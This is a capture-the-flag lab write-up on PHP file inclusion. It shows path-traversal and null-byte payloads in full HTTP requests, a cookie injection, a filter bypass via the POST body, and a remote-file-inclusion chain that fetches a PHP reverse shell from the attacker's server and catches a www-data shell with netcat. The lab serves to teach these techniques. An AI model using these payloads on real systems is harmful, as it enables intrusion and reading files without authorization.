## Scenario

> Time to put everything together. In this task you'll work through a set of challenges that require you to apply the techniques covered in this room. Each challenge introduces a different twist, so pay close attention to how the application handles your input.
> 
> Make sure the attached VM is running, then navigate to http://10.112.154.13/challenges/index.php.
> 
> If you need a refresher on how HTTP requests work (particularly the difference between GET, POST, and cookies), the HTTP in Detail room is a good resource.

Access via: `http://10.112.154.13/challenges/index.php`

## Challenge 1 — Capturing Flag 1

The lab homepage listed three challenges. 



Opening Challenge #1 (`chall1.php`) showed a "File Name" input with a banner: `The input form is broken! You need to send` POST`request with`file `parameter!`.



Captured the request in Burp while browsing. 



Sent it to Repeater and rewrote it as the POST request the page asked for:

```http
POST /challenges/chall1.php HTTP/1.1
Host: 10.112.154.13
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:153.0) Gecko/20100101 Firefox/153.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,ja;q=0.9
Accept-Encoding: gzip, deflate, br
Sec-GPC: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 32

file=../../../../etc/flag1


```

This returned:



```
Warning: include(../../../../etc/flag1): failed to open stream: No such file or directory in /var/www/html/chall1.php on line 35

Warning: include(): Failed opening '../../../../etc/flag1' for inclusion (include_path='.:/usr/lib/php5.2/lib/php') in /var/www/html/chall1.php on line 35
```

The echoed `include(...)` argument matched the input exactly — no directory prefix, no appended extension — and leaked the script's full path, `/var/www/html/chall1.php`. Since `var`, `www` and `html` are three directory levels under root, four `../` should already have been more than enough to reach `/etc/flag1`.

Tried padding the traversal further (six `../` instead of four), with no null byte — still failed, which ruled out depth as the problem.

Tried an absolute path with a null byte instead:



This worked and returned the flag. 

A bit confused why it necessitated a null byte, I went on to look up other writeups of this room, and theirs show that plain traversal or a bare absolute path work, which didn't match what I was seeing — so I went back and tested plain `/etc/flag1` on its own, with no null byte and no traversal at any depth from none up to a thousand `../`. None of it worked without the `%00`.

To track down why, I opened the Hex tab on one of the failing requests (`file=/etc/flag1`, `Content-Length: 19`) and found the actual body wasn't just `file=/etc/flag1` — it was that text followed by two CRLF pairs (`\r\n\r\n`), left over from blank lines in Burp's request editor. 

Since this is URL-encoded form data with no second parameter to close off the `file` value at an `&`, those trailing bytes were being read in as part of the parameter itself. The value the server actually received was `/etc/flag1\r\n\r\n`, not a clean path — which doesn't exist, which is why every attempt failed identically regardless of what came before those bytes. My payloads necessitated a null byte had only because it truncates the string at the point it's inserted, before the file-open call runs, discarding whatever followed it — in this case the stray CRLFs. 

Deleted the trailing blank lines from the request body and corrected `Content-Length` to match the real 15-byte body:



```http
POST /challenges/chall1.php?file=test HTTP/1.1
Host: 10.112.154.13
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:153.0) Gecko/20100101 Firefox/153.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,ja;q=0.9
Accept-Encoding: gzip, deflate, br
Sec-GPC: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

file=/etc/flag1
```

This worked with no null byte and no traversal at all, confirming the trailing bytes had been the real problem the whole time.

**Answer:** `—REDACTED—`

## Challenge 2 — Capturing Flag 2

Navigated to Challenge #2 (`chall2.php`) and reloaded, as the page instructed, to pick up a cookie. Landed on a page reading:



Checked the browser's cookie storage and found one cookie, `THM=Guest`. 


Changed the value from `Guest` to `Admin` and reloaded. 



This unlocked a different view of the page, now showing a `Current Path` of `/var/www/html` and a `File Content Preview` that revealed the cookie's value was being prepended with `includes/` and suffixed with `.php` before being included — so the cookie itself is the file-inclusion parameter, with both a hardcoded directory and a hardcoded extension wrapped around it.

Changed the cookie to `../../etc/flag2%00`  and reloaded.



Failed. 

Not sure whether that was a depth problem or the technique just not applying here, so decided to confirm this by adding more `../` sequences:

```
Cookie: THM=../../../../../../../../../../etc/flag2%00
```

This worked, and the page returned the flag.



**Answer:** `—REDACTED—`

## Challenge 3 — Capturing Flag 3

Navigated to Challenge #3 (`chall3.php`) — a plain "File Name" form with the placeholder "For example: welcome". 



First attempt, via the address bar:

```
http://10.112.154.13/challenges//chall3.php?file=../../../../../etc/flag3
```



The response showed `Current Path: /var/www/html` and `File Content Preview of etcflag`, with:

```
Warning: include(etcflag.php): failed to open stream: No such file or directory in /var/www/html/chall3.php on line 30

Warning: include(): Failed opening 'etcflag.php' for inclusion (include_path='.:/usr/lib/php5.2/lib/php') in /var/www/html/chall3.php on line 30
```

My traversal sequences and the slashes in `etc/flag3` had been stripped out entirely, and `.php` was appended to what was left. This confirmed a filter was in play on top of the appended extension.

Tried the double-up bypass — repeating `....//` so that stripping `../` from the middle of each one leaves a working `../` behind — combined with a null byte:

```
http://10.112.154.13/challenges///chall3.php?file=....//....//....//....//....//....//etc//flag3%00
```

This also failed. The filter looked stronger than a simple single-pass `../` strip.

Checked the challenge's hint:

```
[Hint#1] Not everything is filtered!
[Hint #2] The website uses $_REQUESTS to accept HTTP requests. Do research to understand it and what it accepts!
```

Looking into it, the actual PHP superglobal is `$_REQUEST` (singular) — an array that merges `$_GET`, `$_POST`, and `$_COOKIE` data under the same parameter names. That suggested the filter might only be checking the URL's query string, while the app reads the same `file` key from anywhere `$_REQUEST` pulls from. Perhaps the filter only looks at GET requests but not POST body.

To capture this hypothesis, I captured the existing GET request in Burp (still carrying the `THM` cookie left over from Challenge 2) and sent it to Repeater, switched the method to POST, and sent a clean, unfiltered value in the body this time:

```http
POST /challenges///chall3.php?file=....//....//....//....//....//....//etc//flag3%00 HTTP/1.1
Host: 10.112.154.13
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:153.0) Gecko/20100101 Firefox/153.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,ja;q=0.9
Accept-Encoding: gzip, deflate, br
Sec-GPC: 1
Connection: keep-alive
Cookie: THM=../../../../../../../../../../etc/flag2%00
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 18

file=/etc/flag3%00
```



This worked and returned the flag — confirming the filter was applied only to the GET query string, while the vulnerable code reads `$_REQUEST['file']`, which also accepts the same parameter name from a POST body.

**Answer:** `—REDACTED—`

## Lab Playground — Gaining RCE via RFI

Navigated to `playground.php` — a "Lab #Playground: Include a file in the input form below" page with the placeholder "Apply any technique!". Submitted `test` as a quick check, and the response showed the same no-prefix, no-extension `include()` pattern seen in Challenge 1 (`include(test): failed to open stream`), confirming no filtering here either.

The goal was RFI leading to code execution, so prepared a PHP reverse shell locally:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ cp /usr/share/laudanum/php/php-reverse-shell.php ~/php-rev-shell.php
```

Opened the copied file in Vim to set the callback IP and port.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ vim php-rev-shell.php
```

Started a netcat listener to catch the reverse connection:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ nc -lvnp 8888
listening on [any] 8888 ...
```

Started a local HTTP server to serve the shell file for the RFI fetch:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ python3 -m http.server 1234
Serving HTTP on 0.0.0.0 port 1234 (http://0.0.0.0:1234/) ...
```

Triggered the RFI by pointing the vulnerable parameter at the hosted shell:

```
http://10.112.154.13/playground.php?file=http://—REDACTED—:1234/php-rev-shell.php
```

The listener caught the connection:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ nc -lvnp 8888
listening on [any] 8888 ...
connect to [—REDACTED—] from (UNKNOWN) [10.112.154.13] 44854
Linux —REDACTED— 5.15.0-1064-aws #70~20.04.1-Ubuntu SMP Fri Jun 14 15:42:13 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 15:39:22 up  1:49,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

The `uid=33(www-data)` confirms code execution as the web server's own low-privilege user, reached entirely through the vulnerable `include()` call. 

Ran the command the task asked for:

```shell
$ hostname

—REDACTED—
```

**Answer:** `—REDACTED—`